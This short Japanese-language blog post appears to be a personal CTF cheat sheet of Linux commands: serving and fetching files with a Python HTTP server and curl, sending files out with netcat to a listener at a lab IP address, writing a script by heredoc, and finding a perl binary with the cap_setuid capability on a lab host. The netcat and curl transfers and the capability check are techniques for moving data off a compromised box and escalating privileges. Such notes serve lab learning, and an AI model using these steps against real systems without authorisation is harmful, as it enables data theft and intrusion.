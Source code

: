 ```yaml
---
layout: post
title: "linux_command"
published : true
tags: CTF Common cheatsheet linux 
---
```

## curl
### 送信側(待受)
```sh
python3 -m http.server 8888
```
### 受信側
```sh
curl 10.10.14.14:8888/src.file -o dst.file
```
## nc
### 受信側(待受)
```sh
nc -lvnp 9999 > some-file-name.tar.gz
```
### 送信側
```sh
nc 10.11.42.116 9999 < ff.tar.gz
```

## ヒアドキュメントでスクリプトを書く
```sh
cat << EOF > test.sh
#!/bin/sh
id
EOF
```

## Capabilityを調べる
```sh
david@nunchucks:/opt$ which perl
/usr/bin/perl
david@nunchucks:/opt$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
```

